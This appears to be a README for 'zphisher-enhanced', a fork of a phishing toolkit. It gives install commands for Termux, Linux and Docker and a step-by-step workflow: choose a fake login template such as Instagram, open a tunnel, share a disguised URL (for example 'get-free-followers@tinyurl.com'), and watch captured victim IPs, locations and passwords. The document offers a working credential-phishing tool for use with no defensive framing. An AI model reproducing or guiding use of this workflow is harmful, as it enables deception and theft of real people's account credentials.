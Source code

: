 ```bash

# Install dependencies
pkg install git php curl openssh -y

# Clone this enhanced fork
git clone --depth=1 https://github.com/Darkrevengehack/zphisher-enhanced.git
cd zphisher-enhanced
bash zphisher.sh
⚠️ A Note :
Termux discourages hacking .. So never discuss anything related to zphisher in any of the termux discussion groups. For more check : wiki

🐧 Installation (Linux)
# Install dependencies
sudo apt update
sudo apt install git php curl openssh-client -y

# Clone and run
git clone --depth=1 https://github.com/Darkrevengehack/zphisher-enhanced.git
cd zphisher-enhanced
bash zphisher.sh

🐳 Run on Docker
Original Docker Images:
DockerHub: docker pull htrtech/zphisher
GHCR: docker pull ghcr.io/htr-tech/zphisher:latest
Note: Docker images are from the original project. This fork adds enhancements to the tunneling system which work in standard installations.

📖 Usage
Recommended Workflow (Enhanced)
Start Zphisher
cd zphisher-enhanced
bash zphisher.sh
Choose Template (e.g., Instagram → Traditional)
Select Tunnel (Recommendations):
🥇 Option 02 - Serveo (Recommended for this fork)
🥈 Option 03 - LocalXpose (Backup option)
🥉 Option 04 - Cloudflared (If others fail)
Copy Generated URL and share it
Monitor Captures in real-time
Enhanced Output Example
[-] Initializing... ( http://127.0.0.1:8080 )

[-] Verifying PHP server... ✓ OK

[-] Launching Serveo...
[✓] Tunnel established successfully!

[-] URL 1 : https://abc123.serveo.net
[-] URL 2 : https://tinyurl.com/xyz123
[-] URL 3 : https://get-free-followers@tinyurl.com/xyz123

[-] Waiting for Login Info, Ctrl + C to exit...

[-] Victim IP Found !
[-] Victim's IP : 203.0.113.42
[-] Country: United States | City: New York | ISP: Example ISP
[-] Saved in : auth/ip.txt

[-] Login info Found !!
[-] Account : victim@example.com
[-] Password : ********
```